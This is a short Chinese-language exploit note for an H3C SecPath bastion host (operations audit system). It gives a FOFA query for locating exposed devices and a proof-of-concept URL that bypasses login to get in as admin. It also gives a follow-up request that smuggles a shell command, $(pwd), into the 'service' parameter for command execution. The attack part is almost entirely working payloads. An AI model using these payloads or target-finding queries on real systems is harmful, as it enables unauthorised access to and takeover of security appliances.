 ## H3C-SecParh堡垒机任意用户登录漏洞

H3C SecParh堡垒机的get_detail_view.php中存在任意用户登录漏洞。攻击者可以构建一个恶意URL，利用该漏洞进行攻击。

## fofa
```
app="H3C-SecPath-运维审计系统" && body="2018"
```

## poc
```
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```

![image](../../images/8494d9aa-bd2f-4ecb-800f-d27308de54d8.png)

![image](../../images/7a66984a-8669-43e1-a527-e3460fc49501.png)


## 命令执行

通过任意用户登录或者账号密码进入后台才可以构造特殊的请求执行命令

```
https://IP地址:端口/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(pwd)&identity_cond=&query_type=all&format=json&browse=true
```
